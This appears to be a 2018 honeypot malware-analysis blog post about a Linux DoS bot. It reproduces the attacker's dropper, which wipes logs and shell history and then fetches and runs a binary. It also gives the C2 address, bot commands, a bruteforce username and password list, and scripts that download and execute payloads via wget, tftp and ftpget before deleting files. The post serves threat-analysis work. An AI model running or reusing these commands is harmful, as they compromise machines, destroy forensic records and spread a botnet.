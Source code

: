 ```yaml
---
layout: post
title: "b08f9dc5784532be5b3f695f37c7781b"
date: 2018-09-06
categories:
    - blog
keywords: "re, malware, honeypot"
---
```


Initial file dropped:

```
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; wget keedz.tk/client ; chmod +x client ; ./client ; rm -rf client ; rm -rf bash_history ; export HISTFILE=/dev/null ; rm -rf botz.sh ; exit
```

The `client` is a 64-bit ELF binary. The binary acts as a DoS bot which connect to their CNC (5.135.209.121) on port 23.

Available commands:

```
GETLOCALIP
SCANNER ON | OFF
HOLD
JUNK
HTTP
COMBO
KILLATTK
FUCKOFF
```

Below is the connection to the CNC:

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* SCANNER ON
PING
PONG
```

If you try to connect for the 2nd time, this will be output.

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* LOLNOGTFO
Connection closed by foreign host.
```

However, the CNC can be connected again after a few seconds.

The binary spread by bruteforcing the login for a random IP addresses.

List of usernames:

```
root
admin
user
login
guest
support
```
List of passwords:

```
root
toor
admin
user
guest
login
changeme
1234
12345
123456
default
password
support
```

Once logged in, it will execute the following commands:

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 5.135.209.121 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 5.135.209.121; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 23 5.135.209.121 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
```

Inside bins.sh, more binary will be fetch

```
-e #!/bin/bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ntpd; chmod +x ntpd; ./ntpd; rm -rf ntpd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sshd; chmod +x sshd; ./sshd; rm -rf sshd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/openssh; chmod +x openssh; ./openssh; rm -rf openssh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bash; chmod +x bash; ./bash; rm -rf bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/tftp; chmod +x tftp; ./tftp; rm -rf tftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/wget; chmod +x wget; ./wget; rm -rf wget
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/cron; chmod +x cron; ./cron; rm -rf cron
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ftp; chmod +x ftp; ./ftp; rm -rf ftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/pftp; chmod +x pftp; ./pftp; rm -rf pftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sh; chmod +x sh; ./sh; rm -rf sh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/' '; chmod +x ' '; ./' '; rm -rf ' '
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/apache2; chmod +x apache2; ./apache2; rm -rf apache2
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/telnetd; chmod +x telnetd; ./telnetd; rm -rf telnetd
```
